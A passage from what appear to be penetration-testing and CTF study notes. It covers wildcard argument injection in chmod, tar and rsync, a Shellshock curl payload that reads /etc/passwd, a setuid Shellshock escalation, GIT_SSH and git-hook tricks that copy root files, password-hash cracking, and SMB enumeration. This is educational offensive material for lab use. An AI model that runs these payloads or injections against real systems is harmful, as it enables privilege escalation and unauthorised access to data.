    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

Tar arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

:: 

    [root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

:: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current directory.

:: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

:: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

:: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

Rsync arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

:: 

  -e, --rsh=COMMAND       specify the remote shell to use
  --rsync-path=PROGRAM    specify the rsync to run on remote machine			

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

:: 

  # rsync -t *.c foo:src/


Directory content:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

:: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

:: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

:: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

:: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

:: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

:: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt

Tips and Tricks
===============

FTP Services
------------

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

SSH
---

ssh_config
^^^^^^^^^^
If you know the password of the user, however, ssh is not allowing you to login, check ssh_config.

::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers example_user1 example_user2 
   ## SSH keys only but example_user1 can use a password 
   Match user example_user1 
   PasswordAuthentication yes 	
   ## End tighten security

SSH as SOCKS Proxy
^^^^^^^^^^^^^^^^^^
We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

:: 

  ssh -D localhost:9050 user@host

  -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

and 
	
:: 
	
  proxychains4 remmina

HTTP
----

First things
^^^^^^^^^^^^

* View Source of the web-page (Ctrl+U).
* Inspect element of the web-page (F12).
* See if there is any hint in the title of the web page. (example: /Magic).
* Check the scroll button! Sometimes, there are too many lines and something hidden in the end of the webpage!
* Check for any long file names such admin_5f4dcc3b5aa765d61d8327deb882cf99.txt; Such long names can be base64-encoded, hex, md5 etc.
* If any login page is implemented asking for username and password. Check how it is implemented? Is it using any open-source authentication modules? If so, look if there are any default passwords for that.
* If there's a page where redirect is happening (for example, http://example.com or http://example.com/support.php redirects us to http://example.com/login.php) However, the response size for example.com or support.php is a bit off, especially considering the page gives a 302 redirect. We may use No-redirect extension from firefox and view the page. We may also utilize curl/ burp to view the response.
* `List of HTTP Headers <https://en.wikipedia.org/wiki/List_of_HTTP_header_fields>`_ : Quite important when you want to set headers/ cookies etc.

htaccess - UserAgent
^^^^^^^^^^^^^^^^^^^^
When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

:: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

CGI-BIN Shellshock
^^^^^^^^^^^^^^^^^^
To understand shellshock few blogs can be referred such as `ShellShocked – A quick demo of how easy it is to exploit <https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/>`_ , `Inside Shellshock: How hackers are using it to exploit systems <https://blog.cloudflare.com/inside-shellshock/>`_

::

  curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat

It is important to understand what is cgi-bin which can be read from `Creating CGI Programs with Bash: Getting Started <http://www.team2053.org/docs/bashcgi/gettingstarted.html>`_ . Also the most important lines in this file are:

::

  echo "Content-type: text/html"
  echo ""
 
These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

::

  sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary

Shellshock also affects DHCP as mentioned `Shellshock DHCP RCE Proof of Concept <https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/>`_ There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

XSS/ HTML Injection
^^^^^^^^^^^^^^^^^^^

The below will redirect the page to google.com

::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

curl
^^^^

:: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.

HTTP Referer
^^^^^^^^^^^^

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

::
   
  Referer: <url>

  <url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.

Data-URI
^^^^^^^^^
`Basics of HTTP Data URI <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>`_

Login-Pages
^^^^^^^^^^^
To test login pages, we may use burpsuite intruder and check for different length of response.

Delete Tags
^^^^^^^^^^^
Delete all lines between tags including tags:

::
   
  sed '/<tag>/,/<\/tag>/d' input.txt

.. Tip :: Useful when you are accessing the webpage using curl and their LFI and you want to remove the html/ body tags.

HTTP 404 Custom Page
^^^^^^^^^^^^^^^^^^^^
Sometimes, it's a good idea to look at 404 custom page also. There might be some information store.d

PHP
^^^

* PHP's preg_replace() function which can lead to RCE. It's deprecated in later revisions (PHP >= 5.5.0). If you think there's a pattern which is replaced in a text, refer `The unexpected dangers of preg_replace() <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>`_ 

run-parts
---------

run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

:: 

  run-parts /etc/cron.daily

Sudoers file
------------

If the sudoers file contains: 
	
:: 

  secure\_path 
  Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment	variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt\_group option are not affected by secure\_path. This option is not set by default.

  env\_reset If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO\_\* variables. Any variables in the caller's environment that match the env\_keep and env\_check lists are then added, followed by any variables present in the file specified by the env\_file option (if any). The contents of the env\_keep and env\_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure\_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

  mail\_badpass Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail\_all\_cmnds, mail\_always, mail\_no\_host, mail\_no\_perms or mail\_no\_user flags are set, this flag will have no effect. This flag is off by default.

Docker Security
---------------

Any user who is part of the docker group should also be considered root. Read `Using the docker command to root the host <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host>`_ Older version of docker were vulnerable to Docker breakout. More details at `Shocker / Docker Breakout PoC <https://github.com/gabrtv/shocker>`_


Java keystore file
------------------

Refer `Java Keytool essentials working with java keystores <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores>`_ and `openssl essentials working with ssl certificates private keys and csrs <https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>`_

Cracking MD5 Hashes
-------------------

Try `Crackstation <https://crackstation.net/>`_ or `ISC Reverse hash <https://isc.sans.edu/tools/reversehash.html>`_

Steghide
--------
Looking for hidden text in the images? Utilize steghide

::

  steghide version 0.5.1

  the first argument must be one of the following:
  embed, --embed          embed data
  extract, --extract      extract data
  info, --info            display information about a cover- or stego-file
  info <filename>       display information about <filename>
  encinfo, --encinfo      display a list of supported encryption algorithms
  version, --version      display version information
  license, --license      display steghide's license
  help, --help            display this usage information

.. Tip :: Sometimes, there is no password, so just press enter.

Git client Privilege Escalation
--------------------------------
Git clients (before versions 1.8.5.6, 1.9.5, 2.0.5, 2.1.4 and 2.2.1) and Mercurial clients (before version 3.2.3) contained three vulnerabilities that allowed malicious Git or Mercurial repositories to execute arbitrary code on vulnerable clients under certain circumstances. Refer `12 Days of HaXmas: Exploiting CVE-2014-9390 in Git and Mercurial <https://community.rapid7.com/community/metasploit/blog/2015/01/01/12-days-of-haxmas-exploiting-cve-2014-9390-in-git-and-mercurial>`_

In one of write-up, `Nicolas Surribas <http://devloop.users.sourceforge.net/>`_ has mentioned about two git environment variables GIT_SSH and GIT_TEMPLATE which can be utilized to do privilege escalation if git clone is performed using a suid binary. Imagine a suid binary utilized to do git clone from a remote directory.

GIT_SSH
^^^^^^^

If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

::

  echo '#!/bin/bash' > cmd
  echo 'cp /root/flag.txt /tmp' >> cmd
  echo 'chmod 777 /tmp/flag.txt' >> cmd
  GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)

  or

  echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh

  where priv is binary compiled from suid.c

This basically changes the command from

::

  trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'

to

::

  trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''

GIT_TEMPLATE_DIR
^^^^^^^^^^^^^^^^^
Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer `Git-init <https://git-scm.com/docs/git-init>`_ 

::

  cp -r /usr/share/git-core/templates/ mytemplates
  cd mytemplates/hooks
  echo '#!/bin/bash' > post-checkout
  echo 'cp /root/flag /tmp/flag2' >> post-checkout
  echo 'chown username.username /tmp/flag2' >> post-checkout
  chmod +x post-checkout
  cd ../..
  GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)


Metasploit shell upgrade
------------------------

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u

:: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms

Password Protected File
------------------------
	  
ZIP File
^^^^^^^^

run fcrackzip

:: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

rar2john
^^^^^^^^
We can get the password hash of a password protected rar file by using rar2john

:: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

keepass2john
^^^^^^^^^^^^

::

 keepass2john user.kdbx 
 user:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

::

 john --wordlist wordlist --format=keepass hashfile

There are other \*2john thingy

::

 dmg2john
 gpg2john
 hccap2john
 keepass2john
 keychain2john
 keyring2john
 keystore2john
 kwallet2john
 luks2john
 pfx2john
 putty2john
 pwsafe2john
 racf2john
 rar2john
 ssh2john
 truecrypt_volume2john
 uaf2john
 wpapcap2john
 zip2john


Encrypted Files
---------------

Many times during the challenges, we do find encrypted files encrypted by Symmetric key encryption or RSA Public-Private Key encryption

Symmetric Key
^^^^^^^^^^^^^

If we have the encrypted file and the key to it. However, we don't know the encryption scheme such as aes-128-cbc, des-cbc.

We can use the code written by superkojiman in `De-ICE Hacking Challenge Part-1 <https://blog.techorganic.com/2011/07/19/de-ice-hacking-challenge-part-1/>`_ , it would tell you what encryption scheme is used and then we can run the command to retrieve the plaintext.

::

 ciphers=`openssl list-cipher-commands`
 for i in $ciphers; do
  openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> > /dev/null 2>&1
  if [[ $? -eq 0 ]]; then
   echo "Cipher is $i: openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> -out foo.txt"
   exit
  fi
 done

RSA Public-Private Key encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have found a weak RSA public, we can use `RsaCtfTool <https://github.com/Ganapati/RsaCtfTool>`_ uncipher data from weak public key and try to recover private key and then use 

::

 openssl rsautl -decrypt -inkey privatekey.pem -in <encryptedfile> -out key.bin 

The ciphertext should be in binary format for RsaCtfTool to work. If you have your ciphertext in hex, for example

::

 5e14f2c53cbc04b82a35414dc670a8a474ee0021349f280bfef215e23d40601a

Convert it in to binary using

::

 xxd -r -p ciphertext > ciphertext3


RSA given q, p and e?
^^^^^^^^^^^^^^^^^^^^^

Taken from `RSA Given q,p and e <https://crypto.stackexchange.com/questions/19444/rsa-given-q-p-and-e>`_

::

 def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

 def main():

    p = 1090660992520643446103273789680343
    q = 1162435056374824133712043309728653
    e = 65537
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

 if __name__ == "__main__":
    main()

    
Truecrypt Files
---------------

If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

:: 

  truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

and Veracrypt or cryptsetup to open the file.

::

  cryptsetup open --type tcrypt <Truecrypt> <MountName>

Windows
-------

Get-ChildItem Mode Values
^^^^^^^^^^^^^^^^^^^^^^^^^

'Mode' values returned by PowerShell's Get-ChildItem cmdlet?

::

 PS> gci|select mode,attributes -u

 Mode                Attributes
 ----                ----------
 d-----               Directory
 d-r---     ReadOnly, Directory
 d----l Directory, ReparsePoint
 -a----                 Archive

In any case, the full list is:

::

 d - Directory
 a - Archive
 r - Read-only
 h - Hidden
 s - System
 l - Reparse point, symlink, etc.

Zip or unzip using ONLY Windows' built-in capabilities? 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Powershell way

::

 Add-Type -A System.IO.Compression.FileSystem
 [IO.Compression.ZipFile]::CreateFromDirectory('foo', 'foo.zip')
 [IO.Compression.ZipFile]::ExtractToDirectory('foo.zip', 'bar')

Alternate Data Stream
^^^^^^^^^^^^^^^^^^^^^
Sometimes, `Alternate Data Stream <https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/>`_ can be used to hide data in streams.

The output shows not only the name of the ADS and its size, but also the unnamed data stream and its size is also listed (shown as :$DATA).
::

 PS > Get-Item -Path C:\Users\Administrator\example.zip -stream *

 Filename: C:\Users\Administrator\example.zip

 Stream             Length
 ------             -------
 :$DATA             8
 pass.txt           4

Now, we know the name of the ADS, We can use the Get-Content cmdlet to query its contents.

::

 Get-Content -Path C:\Users\Administrator\example.zip -Stream pass.txt
 The password is Passw0rd!

Check a directory for ADS?

::

 gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'



Others
------
* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be important to see how a application is storing password.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial

* Many times if IPv6 is enabled, probably you can utilize IPv6 to connect and bypass firewall restrictions ( If firewall is not implemented at IPv6 level - many times it is not ).

 * To find IPv6 from SNMP 

  :: 

   snmpwalk -v2c -c public prism 1.3.6.1.2.1.4.34.1.3    
   iso.3.6.1.2.1.4.34.1.3.2.48.1.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544320
   iso.3.6.1.2.1.4.34.1.3.2.48.2.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544321
   iso.3.6.1.2.1.4.34.1.3.2.48.2.18.52.86.120.171.205.0.0.0.0.0.0.0.1 = INTEGER: 335544323

  Now, convert the decimal value after "iso.3.6.1.2.1.4.34.1.3.2" to hex which would be your IPv6 address "3002:1234:5678:ABCD::1"

 .. ToDo ::  Mention examples for IPv6 connect


* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password prompt from the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If a machine is running a IIS Server and we have found a way to upload a file. We can try asp web-shell or meterpreter of asp, aspx, aspx-exe executable formats from msfvenom.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
